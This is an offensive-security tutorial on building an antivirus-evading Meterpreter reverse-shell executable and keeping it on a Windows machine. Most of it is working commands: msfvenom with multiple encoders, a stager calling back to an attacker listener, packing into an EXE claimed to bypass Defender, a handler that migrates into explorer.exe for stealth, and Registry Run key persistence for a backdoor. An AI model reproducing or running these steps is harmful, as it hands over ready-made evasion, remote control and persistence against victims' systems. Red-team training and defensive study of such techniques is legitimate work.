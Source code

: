 ```yaml
---
title: Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys
updated: 2021-02-08 16:09
---
```

Gaining a foothold in an internal network can be challenging, as AV and Defender makes this a little tougher. Modern Windows version have put in place some mitigation that prevent the shellcode to run properly. The issue is caused by the fact that the shellcode need RWX memory which are flagged when the shellcode is executed.

Shellcode injection might be very helpful for APT or Red Teamers during Pentesting, as they inject the malicious EXE and migrate the process into a trusted one by EDR. No suspicious behaviour at all!

## Encrypting the C2 communication

Transmitting data over a unencrypted Tunnel is not very recommended, it is always a great idea to replace the default SSL that Metasploit uses when generating stagers, so the communication between the stager and the C2 framework is encrypted. We can create a private RSA key and a Server Certificate for the C2 server-side.

```bash
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout rsaprivate.key -out servercertificate.crt
```

![generate_rsa_and_server_cert](https://miro.medium.com/max/700/1*BkkGQXUKAbLK4QyAdUg1ww.png)

Then merging this together in a .pem file and we have created a concatenated certificate.

```bash
cat rsaprivate.key servercertificate.crt > my.pem
```

## Generating an encoded shellcode

Generate a Metasploit stager using the certificate and making almost obfuscated using **shikata_ga_nai** for implementing a polymorphic XOR additive feedback encoder.

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.1.46 LPORT=8888 --platform windows -a x86 HandlerSSLCert=./my.pem StagerVerifySSLCert=true -s 42 --smallest -e x86/shikata_ga_nai -i 9 -f raw| msfvenom --platform windows -a x86 -e x86/call4_dword_xor -i 6 -b "\x00\x0a\x0d" -f raw > shellcode.raw
```

![encoding_shellcode_with_9_iterations](https://miro.medium.com/max/700/1*r_Mn2ruiyf-OQ_q2kEOXuQ.png)

Once the shellcode is successfully generated, we will pack it into EXE.

## Packaging the shellcode

There is a open source tool called Shecodnject which nicely package our generated shellcode into EXE. Open the tool using python3 as root:

```bash
sudo python3 shecodnject.py
```

Load scc module, set the shellcode.raw file which we previously generated and run the module to read the shellcode inside the file.

```
scc
set source /set/location/to/shellcode.raw
run
```

![reading_shellcode](https://miro.medium.com/max/559/1*g6DM9bSHg5PT-6SYzHPgqQ.png)

Exit the module by typing back. Now that the shellcode is read by the tool, we will pack it into an EXE, so enter the following commands 1 by 1:

```
exe
set noconsole False
run
```

The process of packaging will take a while. Once finished the output will be saved inside /output inside shecodeject folder

The EXE is generated and ready to evade modern EDRs and Windows Defender. Let’s test if it gets detected by Windows Defender:

![bypassed_windows_defender](https://miro.medium.com/max/700/1*d02_hB-bgzFhfVKKj8Keug.png)

It is bypassed, no detection at all. Now it’s time to set a listener in Metasploit and hopefully get a shell:

```
msfconsole -q -x 'use exploit/multi/handler; set ExitOnSession false; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST 192.168.1.46; set LPORT 8888; set HandlerSSLCert /home/nade/Desktop/my.pem; set StagerVerifySSLCert true; set SessionCommunicationTimeout 600; set AutoRunScript post/windows/manage/migrate; run -j -z'
```

The command basically set a listener on PORT 8888, sets up the certificate that the beacon will use while communicating. We are also using the AutoRunScript with the **/post/windows/manage/migrate** module, which means that once the victim opens the .exe, the beacon process will automigrate to explorer.exe, making it undetectable and more stealthy.

For the sake of the statistics, this is the detection rate when scanning in various AVs:

![virus_total_result](https://miro.medium.com/max/700/1*ZvnQegj1lDzTCGrFIZ8mMg.png)

## Gaining persistence by backdooring Registry Run Keys

For persistence we will inject our backdoor into a Registry Run Key. Luckily Metasploit has a module for this port-exploitation. The module require the following configuration and will drop an executable at a writable location on the compromised system. In this case, we will upload our backdoor which is the same stager as the one we used for gaining (on our local machine I have called it **fin.exe**) on the target machine -> **C:\tmp\fin.exe**

First create **tmp** directory and upload **fin.exe**:

![c2_upload_backdoor](https://miro.medium.com/max/700/1*KZbAWjiVyMg-g7QLTCLmfA.png)

```
use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run
```

![metasploit_persistence_module](https://miro.medium.com/max/700/1*ehPmp6GPl5lmgHOINca9vw.png)

The next time that the user will login with the system a new Meterpreter session will open (a black cmd screen will pop-up where it executed the backdoor and than automatically closes).

## Gaining persistence the manual way

Alternatively, you can use these commands to manually add these 4 Registry Run Keys so our backdoor **fin.exe** will be injected. In the demo I have added a random Value **NotAVirus**, but you don't want to leave it that way, you know. Before working with Registries, make sure to upload the backdoor in the target system (which in my case: **C:\tmp\fin.exe**).

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v NotAVirus /t REG_SZ /d "C:\tmp\fin.exe"
```
